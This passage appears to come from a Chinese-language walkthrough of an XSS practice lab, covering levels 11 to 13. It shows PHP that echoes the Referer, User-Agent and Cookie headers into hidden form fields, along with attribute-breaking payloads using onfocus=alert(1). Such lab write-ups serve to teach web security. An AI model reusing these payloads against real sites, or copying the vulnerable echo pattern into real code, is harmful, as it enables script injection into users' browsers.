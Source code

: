 ```php
</form>
</center>';
```

这里的 t_ref 的 value 是我们访问这个网页的 referer 值,直接抓包修改 referer

payload: `referer:test"onfocus=alert(1) autofocus type="text"`

---

# level 12

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

与上一题一样,这一题是判断 HTTP_USER_AGENT,直接抓包修改 HTTP_USER_AGENT

payload: `HTTP_USER_AGENT:test"onfocus=alert(1) autofocus type="text"`

---

# level 13

```php
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
```
